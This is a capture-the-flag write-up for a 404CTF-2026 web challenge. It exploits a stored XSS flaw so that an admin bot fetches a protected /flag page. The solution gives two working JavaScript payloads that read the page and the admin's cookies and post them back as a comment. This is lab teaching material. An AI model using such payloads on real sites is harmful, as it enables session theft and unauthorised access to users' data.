


## ## Challenge Description

Le télégraphe Baudot (inventé par Émile Baudot en 1874) est une avancée majeure qui a rapproché brutalement le vieux télégraphe de l'ordinateur que nous connaissons aujourd'hui. Pour le commémorer, votre ami Jean Baudot (qui n'est évidemment pas un descendant d'Émile Baudot) a créé un site à thème assez simple pour débuter dans la programmation. Prouvez-lui qu'il n'est pas près de devenir un vrai programmeur s'il ne se documente pas assez sur les technologies qu'il implémente... (Le /flag permet d'obtenir le flag...) ("Signaler un problème" vous permettra d'amener un admin sur la page) (L'admin n'a pas accès à Internet)
[Source code](https://github.com/HackademINT/404CTF-2026/tree/main/Web/TelegrapheDetourne)
## ## Reconaissance

This is a black box challenge with 
an application that seems to be vulnerable to XSS.

At /home we can send a message/comment to be written right on the page after clicking on Etablir le lien.

At /flag we get "Ceci est reserve aux admins", since we don't have the access to it right now. At the end of /home we can notify a bot with admin privilege to visit our page.

A simple <script>alert(1)</script> works, so the exploit flows is to create a js script that forced visistor to fetch /flag and post the content of it as a comment on the page (because the bot has no access to internet).



## ## Solution
Firstly I tried this payload, but I got FLAG: Flag transmis... instead of the realy flag.

```javascript
{const flag=await fetch('/flag',{credentials:'include'}).then(r=>r.text());initCSRF();await new Promise(r=>setTimeout(r,1000));await fetch('/post_comment',{method:'POST',body:new URLSearchParams({comment:'FLAG:'+flag}),credentials:'include'})})();" />

```
If the server transmitted the flag, but not at /flag content, I guess it could be set as a cookie, so I tried to extract it.

```javascript
{const flag=await fetch('/flag',{credentials:'include'}).then(r=>r.text());initCSRF();await new Promise(r=>setTimeout(r,1000));await fetch('/post_comment',{method:'POST',body:new URLSearchParams({comment:'FLAG_RESPONSE:'+flag+' || COOKIES:'+document.cookie}),credentials:'include'})})();" />

```
And now we got the flag:
.
